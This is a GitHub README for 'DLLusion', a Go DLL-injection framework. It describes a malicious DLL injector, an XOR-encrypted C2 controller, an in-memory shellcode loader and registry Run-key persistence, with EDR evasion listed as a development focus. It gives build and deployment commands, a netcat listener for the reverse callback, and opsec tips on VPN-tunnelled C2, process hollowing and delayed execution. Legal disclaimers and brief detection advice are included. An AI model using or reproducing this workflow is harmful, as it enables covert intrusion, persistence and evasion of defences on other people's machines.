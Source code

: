 # DLL Injection Framework 🔒⚙️

DLLusion is a controlled experimental DLL injection framework written in golang for studying Windows process injection techniques, defensive evasion methods, and post-exploitation tradecraft in authorized security research environments.


## 🚧 Active Development Notice

This project is currently under active development and should be considered:
- Experimental - May contain unstable code
- Research-grade - Not production-ready
- Volatile - APIs may change without notice

Current Development Focus:
✓ EDR evasion improvements
✓ Cross-architecture support
✓ Operational security enhancements
✓ Defensive countermeasure research

**WARNING: This project is for educational and research purposes only. Misuse of this software may violate local, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this tool.**


## ⚠️ Critical Disclaimer ⚠️

This software is provided "as-is" without any guarantees of functionality or safety. 
It demonstrates advanced security concepts related to:
- Process injection techniques
- Remote thread creation
- Defensive evasion methods
- Post-exploitation workflows

NEVER use this tool on systems without explicit written permission from the system owner. 
Unauthorized use may constitute illegal computer intrusion under laws including but not limited to:
- US Computer Fraud and Abuse Act (CFAA)
- UK Computer Misuse Act
- EU Directive 2013/40/EU


## 🔧 Technical Overview
Architecture:

DLLusion/
├── build/
│   ├── windows/             # Target: Compromised Windows machine
│   │   ├── injected.dll     # Malicious DLL
│   │   └── injector.exe     # Injection tool
│   └── linux/               # Attacker: Linux machine
│       └── controller       # ELF binary (no .exe)
├── src/
│   ├── dll/                 # Windows DLL code
│   ├── injector/            # Windows injector
│   └── controller/          # Controller (cross-platform compatible)
├── scripts/
│   ├── build_dll.sh         # Builds Windows DLL
│   ├── build_injector.sh    # Builds Windows injector
│   ├── build_controller.sh  # Builds Linux ELF or Windows EXE
│   └── generate_shellcode.sh # Generates a .bin shellcode 
├── go.mod 					 # Go module file
└── README.md                # Project documentation


### Key Features
1. Process Injector => Advanced DLL injection using NT syscalls
2. Encrypted C2 	=> XOR-encrypted TCP communication
3. Shellcode Loader => In-memory execution with RX permissions
4. Persistence Module => Registry-based autorun installation

### 🛠️ Installation Requirements
```bash

# Development Environment
sudo apt install golang mingw-w64 metasploit-framework

# Security Restrictions
chmod 700 build_*.sh        # Limit script access
ulimit -n 2048              # Prevent resource exhaustion
```

## 🛠️ Usage Instructions (Authorized Testing Only)
Prerequisites:
✔ Written authorization for testing
✔ Isolated lab environment (VM recommended)
✔ Kali Linux or similar security distro
✔ Go 1.20+ and mingw-w64 installed

Step 1: Configuration
```bash

# Clone the repository securely
git clone https://your-repo-url/dllusion.git --config core.hooksPath=.githooks

cd dllusion

```

Step 2: Build Components
```bash

# Generate encrypted shellcode (produces .bin and .key files)
./scripts/generate_shellcode.sh

# Build all components (Linux controller + Windows DLL/Injector)
./scripts/build_controller.sh
./scripts/build_dll.sh
./scripts/build_injector.sh

# Verify outputs
ls -lh build/{linux,windows}/
```

Expected output:

build/
├── linux/
│   ├── controller       # Linux C2 client
│   ├── shellcode.bin    # Encrypted payload
│   └── shellcode.key    # XOR decryption key
└── windows/
    ├── injected.dll     # Malicious DLL
    └── injector.exe     # Injection tool


Step 3: Deployment (Authorized Targets Only)

# On Windows target (Admin shell):
```powershell
.\injector.exe -pid 1337 -dll injected.dll
```
# On Linux attacker machine:
```bash
./build/linux/controller
```

Step 4: Verification
1. Check for callback on your listener:
```bash
   nc -lvnp 443
```

2. Verify DLL injection:
   Process Hacker/Process Explorer on target

3. Confirm persistence:
```powershell
   reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
Step 5: Cleanup
``` powershell
# On Windows target:
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousApp /f

taskkill /PID 1337 /F

del injected.dll
```

 Operational Security Notes
🔐 Always use:
- VPN tunneling for C2 traffic
- Encrypted payloads (XOR + TLS)
- Process hollowing instead of direct injection where possible
- Time-delayed execution for evasion


## 🚀 Usage Guidelines

### Execution Protocol

1. Obtain written permission from system owner
2. Deploy in isolated network segment
3. Use process explorer to verify PID
4. Execute with explicit authorization:
	```bash
   $ injector.exe -pid 1337 -dll injected.dll
   ```
5. Immediately destroy artifacts post-test

### ⚖️ Legal & Compliance
Required Documentation:
- Signed testing agreement
- Incident response plan
- Data handling policy
- Destruction of artifacts certification

Regulatory Alignment:
This tool helps organizations comply with:
- NIST SP 800-53 (Security Controls)
- PCI DSS v4.0 (Penetration Testing)
- ISO 27001 (Risk Management)
When used properly by authorized professionals.

### 🔒 Security Best Practices
Risk Mitigation Strategies:
1. Network segmentation
2. Host-based firewall rules
3. Process whitelisting
4. Memory protection controls
5. Regular audits

Monitoring Recommendations
1. Sysmon configuration for injection detection
2. ETW-based thread creation monitoring
3. Kernel-mode hook detection


## 📄 License

AGPL-3.0 with Ethical Use Amendment:
This license strictly prohibits:
- Military applications
- Surveillance use
- Human rights violations
- Unauthorized penetration testing

By using this software, you agree to comply with all applicable laws and ethical guidelines.
